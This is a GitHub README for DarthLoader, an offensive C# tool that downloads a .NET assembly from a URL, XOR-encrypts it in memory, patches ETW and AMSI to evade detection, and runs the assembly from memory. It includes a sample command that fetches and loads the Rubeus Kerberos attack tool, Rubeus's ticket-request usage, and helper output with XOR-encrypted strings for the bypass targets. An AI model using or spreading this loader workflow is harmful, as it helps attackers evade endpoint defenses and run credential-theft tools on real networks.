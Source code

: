 # DarthLoader
This is a project heavily inspired by Jean-François Maes's [SANS  Workshop Reflection in C#](https://www.sans.org/webcasts/sans-workshop-reflection-in-c-/) to help (c)sharpen by C# dev skills. A lot of code was borrowed and/or extended for this project from:
- https://github.com/cobbr/SharpSploit/tree/master/SharpSploit/Evasion
- https://jfmaes-1.gitbook.io/reflection-workshop/
- StackOverflow

DarthLoader will do the following:
- Remotely fetch a .Net assembly from the web using a base64 encoded url and Xor the byte array in memory.
- Fetch a local .Net assembly into memory.
- Bypass ETW and AMSI by decrypting function strings at runtime via xor key being passed as cmdline arg.
- Decrypt and run the assembly from memory.

```
PS D:\SecToolDev\DarthLoader\DarthLoader\bin\x64\Release> .\DarthLoader.exe testing123 https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.5_x64/Rubeus.exe test

 _______                     __     __       __                              __
|       \                   |  \   |  \     |  \                            |  \
| $$$$$$$\ ______   ______ _| $$_  | $$____ | $$      ______   ______   ____| $$ ______   ______
| $$  | $$|      \ /      |   $$ \ | $$    \| $$     /      \ |      \ /      $$/      \ /      \
| $$  | $$ \$$$$$$|  $$$$$$\$$$$$$ | $$$$$$$| $$    |  $$$$$$\ \$$$$$$|  $$$$$$|  $$$$$$|  $$$$$$\
| $$  | $$/      $| $$   \$$| $$ __| $$  | $| $$    | $$  | $$/      $| $$  | $| $$    $| $$   \$$
| $$__/ $|  $$$$$$| $$      | $$|  | $$  | $| $$____| $$__/ $|  $$$$$$| $$__| $| $$$$$$$| $$
| $$    $$\$$    $| $$       \$$  $| $$  | $| $$     \$$    $$\$$    $$\$$    $$\$$     | $$
 \$$$$$$$  \$$$$$$$\$$        \$$$$ \$$   \$$\$$$$$$$$\$$$$$$  \$$$$$$$ \$$$$$$$ \$$$$$$$\$$


[!] ETW bypassed!
[!] Amsi bypassed!
[*] Downloading and encrypting assembly with the key: test
[+] Encrypted assembly loaded into memory...
[+] Hit any key to run...

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.6.4


 Ticket requests and renewals:

    Retrieve a TGT based on a user password/hash, optionally saving to a file or applying to the current logon session or a specific LUID:
        Rubeus.exe asktgt /user:USER </password:PASSWORD [/enctype:DES|RC4|AES128|AES256] | /des:HASH | /rc4:HASH | /aes128:HASH | /aes256:HASH> [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/outfile:FILENAME] [/ptt] [/luid] [/nowrap] [/opsec]

    Retrieve a TGT based on a user password/hash, start a /netonly process, and to apply the ticket to the new process/logon session:
        Rubeus.exe asktgt /user:USER </password:PASSWORD [/enctype:DES|RC4|AES128|AES256] | /des:HASH | /rc4:HASH | /aes128:HASH | /aes256:HASH> /createnetonly:C:\Windows\System32\cmd.exe [/show] [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/nowrap] [/opsec]


<-----SNIP----->
```

## DarthLoaderHelper
This project was made to help Xor encrypt the strings needed for passing into function calls to patch ETW/AMSI in Helpers.cs.  
```
D:\SecToolDev\DarthLoaderHelper.exe testing123

[+] Encrypting with key: testing123
[+] Encrypted string 'etwbypass': 11110416101E064241
[+] Encrypted string 'amsibypass': 1508001D0B1717504140
[+] Encrypted string 'ntdll.dll': 1A1117180540035D5E
[+] Encrypted string 'EtwEventWrite': 311104311F0B094565411D1116
[+] Encrypted string 'amsi.dll': 1508001D470A0B5D
[+] Encrypted string 'AmsiScanBuffer': 3508001D3A0D065F704612031606
```

## To-do
- [X] Help menu
- [X] Paramerize URL 
- [X] Add local file assembly loading and parameterize file path 
- [X] Paramerize assembly parameters
- [ ] remote fetch config? (remote fetch assembly URL, Xor key etc.)

